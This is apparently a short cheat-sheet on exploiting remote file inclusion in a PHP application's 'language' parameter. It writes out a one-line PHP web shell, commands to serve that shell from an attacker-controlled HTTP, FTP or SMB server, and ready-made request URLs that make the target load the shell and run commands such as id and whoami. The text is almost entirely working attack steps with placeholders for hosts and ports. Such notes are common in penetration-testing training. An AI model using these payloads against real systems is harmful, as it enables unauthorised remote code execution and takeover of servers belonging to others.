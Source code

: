 Create php page
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

### HTTP method
Start call back server
```shell-session
sudo python3 -m http.server <LISTENING_PORT>
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

### FTP method
Start ftp server
```shell-session
sudo python -m pyftpdlib -p 21
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id
```

### SMB Method

Start SMB server
```shell-session
impacket-smbserver -smb2support share $(pwd)
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```


